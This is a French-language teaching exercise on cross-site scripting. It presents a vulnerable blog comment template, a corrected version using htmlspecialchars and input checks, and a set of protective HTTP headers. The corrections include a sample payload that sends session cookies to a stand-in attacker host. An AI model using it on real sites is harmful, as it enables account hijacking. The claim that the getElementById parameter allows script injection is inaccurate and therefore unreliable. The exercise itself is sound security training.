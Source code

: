 ## Exercice 4.2 : Sécurisation contre les attaques XSS (20 min)

### Rappel théorique
Le Cross-Site Scripting (XSS) est une vulnérabilité qui permet à un attaquant d'injecter un script côté client dans les pages web consultées par d'autres utilisateurs. Il existe trois types principaux de XSS :

- **XSS réfléchi** : le script malveillant provient de la requête HTTP actuelle
- **XSS stocké** : le script malveillant est stocké sur le serveur et est servi à tous les visiteurs
- **XSS basé sur le DOM** : le script malveillant est exécuté à la suite de modifications du DOM

Les conséquences peuvent être graves : vol de cookies de session, détournement de compte, hameçonnage, etc.

### Énoncé

Analysez le code suivant qui permet d'afficher les commentaires des utilisateurs sur un blog :

```html
<div class="comments-section">
    <h2>Commentaires</h2>
    
    <?php foreach ($comments as $comment): ?>
        <div class="comment">
            <h3><?= $comment['author'] ?></h3>
            <p><?= $comment['content'] ?></p>
            <small>Posté le <?= $comment['date'] ?> depuis <?= $comment['website'] ?></small>
        </div>
    <?php endforeach; ?>

    <form action="add_comment.php" method="post">
        <input type="text" name="author" placeholder="Votre nom">
        <input type="text" name="website" placeholder="Votre site web">
        <textarea name="content" placeholder="Votre commentaire"></textarea>
        <button type="submit">Envoyer</button>
    </form>
</div>

<script>
    // Mise en évidence du commentaire spécifié dans l'URL
    const highlightId = new URLSearchParams(window.location.search).get('highlight');
    if (highlightId) {
        document.getElementById(highlightId).classList.add('highlighted');
    }
</script>
```

1. Identifiez au moins trois vulnérabilités XSS dans ce code
2. Proposez les corrections nécessaires pour chaque vulnérabilité
3. Expliquez comment utiliser les en-têtes HTTP pour renforcer la protection contre les XSS

### Correction

#### 1. Vulnérabilités XSS identifiées

1. **Affichage non sécurisé des données utilisateur** : Les champs `$comment['author']`, `$comment['content']` et `$comment['website']` sont affichés directement sans échappement, permettant l'injection de balises HTML et de scripts.

   Exemple d'attaque : Un utilisateur pourrait entrer comme nom d'auteur :
   ```html
   <script>document.location='https://site-pirate.com/steal.php?cookie='+document.cookie</script>
   ```

2. **Manipulation non sécurisée du DOM** : Le paramètre `highlight` de l'URL est utilisé directement dans `document.getElementById()` sans aucune validation. Un attaquant pourrait injecter du code JavaScript via ce paramètre.

   Exemple d'attaque : `https://blog.com/post?highlight=');alert('XSS');//`

3. **Absence de validation des entrées dans le formulaire** : Les champs du formulaire n'ont aucune restriction et peuvent contenir n'importe quel contenu, y compris des scripts malveillants qui seront stockés puis affichés à tous les visiteurs.

4. **Absence d'attribut id sur les commentaires** : Le script tente d'accéder à un élément par ID, mais les commentaires n'ont pas d'attribut ID, ce qui peut conduire à des erreurs ou à des comportements inattendus.

#### 2. Corrections proposées

```html
<div class="comments-section">
    <h2>Commentaires</h2>
    
    <?php foreach ($comments as $comment): ?>
        <div class="comment" id="comment-<?= htmlspecialchars($comment['id'], ENT_QUOTES, 'UTF-8') ?>">
            <h3><?= htmlspecialchars($comment['author'], ENT_QUOTES, 'UTF-8') ?></h3>
            <p><?= htmlspecialchars($comment['content'], ENT_QUOTES, 'UTF-8') ?></p>
            <small>
                Posté le <?= htmlspecialchars($comment['date'], ENT_QUOTES, 'UTF-8') ?>
                <?php if (!empty($comment['website'])): ?>
                    depuis 
                    <a href="<?= htmlspecialchars($comment['website'], ENT_QUOTES, 'UTF-8') ?>" rel="nofollow">
                        <?= htmlspecialchars(parse_url($comment['website'], PHP_URL_HOST) ?: $comment['website'], ENT_QUOTES, 'UTF-8') ?>
                    </a>
                <?php endif; ?>
            </small>
        </div>
    <?php endforeach; ?>

    <form action="add_comment.php" method="post">
        <input type="text" name="author" placeholder="Votre nom" maxlength="50" required>
        <input type="url" name="website" placeholder="Votre site web (optionnel)" maxlength="100">
        <textarea name="content" placeholder="Votre commentaire" maxlength="1000" required></textarea>
        <button type="submit">Envoyer</button>
    </form>
</div>

<script>
    // Mise en évidence du commentaire spécifié dans l'URL
    const urlParams = new URLSearchParams(window.location.search);
    const highlightId = urlParams.get('highlight');
    
    if (highlightId && /^[0-9]+$/.test(highlightId)) {
        const element = document.getElementById('comment-' + highlightId);
        if (element) {
            element.classList.add('highlighted');
        }
    }
</script>
```

Corrections apportées :
1. Utilisation de `htmlspecialchars()` pour échapper toutes les données affichées, empêchant l'interprétation du HTML
2. Ajout d'IDs sécurisés aux commentaires, préfixés avec "comment-"
3. Validation et assainissement du paramètre `highlight` avec une expression régulière pour n'accepter que des nombres
4. Ajout de restrictions sur les champs du formulaire (`maxlength`, `required`, type `url`)
5. Traitement spécial des URLs de sites web pour afficher uniquement le nom d'hôte
6. Ajout de l'attribut `rel="nofollow"` pour les liens externes

#### 3. Utilisation des en-têtes HTTP pour la protection XSS

Pour renforcer la protection contre les XSS, plusieurs en-têtes HTTP peuvent être utilisés :

1. **Content-Security-Policy (CSP)** :
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self'; frame-ancestors 'none';
   ```
   Cet en-tête restreint les sources de contenu que le navigateur peut charger, limitant considérablement l'impact des attaques XSS. Dans cet exemple, seules les ressources provenant du même domaine sont autorisées.

2. **X-XSS-Protection** :
   ```
   X-XSS-Protection: 1; mode=block
   ```
   Cet en-tête active la protection XSS intégrée des navigateurs, bloquant le chargement de la page en cas de détection d'une attaque XSS.

3. **X-Content-Type-Options** :
   ```
   X-Content-Type-Options: nosniff
   ```
   Cet en-tête empêche le navigateur de deviner le type MIME des ressources, réduisant le risque d'exécution de scripts malveillants déguisés en d'autres types de contenu.

4. **Strict-Transport-Security (HSTS)** :
   ```
   Strict-Transport-Security: max-age=31536000; includeSubDomains
   ```
   Cet en-tête force les connexions HTTPS, protégeant contre les attaques d'interception qui pourraient être utilisées pour injecter du code malveillant.

5. **Set-Cookie avec attributs sécurisés** :
   ```
   Set-Cookie: session=123; HttpOnly; Secure; SameSite=Strict
   ```
   Ces attributs protègent les cookies contre le vol via XSS (HttpOnly), les transmissions non sécurisées (Secure) et les attaques CSRF (SameSite).

Ces en-têtes peuvent être définis dans la configuration du serveur web (Apache, Nginx) ou dans le code PHP :

```php
// En PHP
header("Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self'; frame-ancestors 'none';");
header("X-XSS-Protection: 1; mode=block");
header("X-Content-Type-Options: nosniff");
```